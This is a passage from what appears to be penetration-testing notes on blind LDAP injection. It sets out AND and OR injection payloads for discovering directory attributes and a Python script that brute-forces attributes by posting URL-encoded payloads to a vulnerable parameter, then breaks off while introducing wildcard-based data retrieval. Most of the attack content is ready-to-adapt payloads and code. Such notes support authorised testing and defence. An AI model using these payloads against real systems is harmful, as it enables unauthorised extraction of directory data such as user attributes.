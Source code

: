 
###### Directory attributes brute forcing

The first step in exfiltrating data through a blind LDAP injection is to
determine which are the valid attributes in the schema.

The payloads to do so are:

 - AND injection: `*)(<ATTRIBUTE>=*))(|(<ATTRIBUTE>=we`
 - OR injection: `void)(<ATTRIBUTE>=void))(&(<ATTRIBUTE>=void`

A comprehensive list of the attributes in the Active Directory, Exchange and
OpenLDAP default schema is available:
`http://www.phpldaptools.com/reference/Default-Schema-Attributes`

Note that the following Python script is only provided as an example on how to
brute force attributes and should be modified accordingly to the LDAP
injection exploited. In particular, the payload and the web application
expected comportment should be updated.

```python
from __future__ import print_function
import requests
import urllib
import time

URL = '<URL>'
WORDLIST = '<WORDLIST>'
VULNERABLE_PARAMETER = '<VULNERABLE_PARAMETER>'

def aggressive_url_encode(string):
    return "".join("%{0:0>2}".format(format(ord(char), "x")) for char in string)

fields = [line.rstrip('\n') for line in open(WORDLIST)]

for field in fields:
    time.sleep(.300)
    # Payload format
    payload = '*)({}=*))(|({}=*'.format(field, field)
    urlencoded = aggressive_url_encode(payload)
    data = {VULNERABLE_PARAMETER: urlencoded}
    r = requests.post(URL, data)
    # Change in comportment to check if the LDAP statement evaluate to true: string in / not in response, response status code or length, etc.
    if 'XXX' in r.text:
        print (field)
```

###### Data retrieval

Once the targeted attribute has been identified, the booleanization technique,
which consist of transforming a complex value check into a list of TRUE / FALSE
statement, can be used to retrieve its value.

In LDAP, the wildcard operator can be used to conduct the booleanization
technique:
